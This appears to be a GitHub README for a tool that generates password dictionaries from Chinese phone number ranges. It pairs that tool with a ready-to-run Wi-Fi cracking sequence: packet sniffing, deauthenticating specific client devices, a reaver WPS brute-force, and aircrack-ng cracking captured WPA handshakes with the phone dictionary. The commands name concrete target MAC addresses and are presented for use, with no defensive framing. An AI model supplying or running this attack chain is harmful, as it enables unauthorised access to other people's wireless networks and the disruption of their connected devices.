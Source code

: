 # Generate dictionary based on Chinese phone number

## Usage
Set priority in table `province_priority` to adjust the sequence of the province in dict, priority 0 will not be generated.

`fetch_url.py` fetches all phone number regions from [www.51hao.cc](http://www.51hao.cc)
`load_phone_region.py` loads phone numbers to sqlitedb
`phone_dict_gen.py` will generate the phone dicts

## Crack cmd
```bash
# Sniff
# Sniff wifi, -c CHANNEL
rm -fr *.cap && sudo airodump-ng --wps -w wpa wlan1mon -c 6


# tgt is the target wifi to crack, clientvic is the client to deauth
tgt=8C:18:50:56:2B:28

# Collect the handshake cap
sudo rm -fr *.cap && sudo airodump-ng --ivs --bssid ${tgt} -w ${tgt}.cap wlan1mon -c 2

# Deauth the client
tgt=8C:18:50:56:2B:28

clientvic=14:5F:94:8C:AA:BF
sudo aireplay-ng -0 10 -a ${tgt} -c ${clientvic} wlan1mon
clientvic=74:E2:F5:33:23:D4
sudo aireplay-ng -0 10 -a ${tgt} -c ${clientvic} wlan1mon

sudo reaver -i wlan1mon -b ${tgt} –a –S –vv –d 0  -c 11


caps=BC-5F-F6-B2-6B-02_handshake.cap

# Check SSID
aircrack-ng  -J wpahash ${caps}

# Crack
aircrack-ng -l wpakey -w ~/phone_dict_gen/phone.dict ${caps}
```
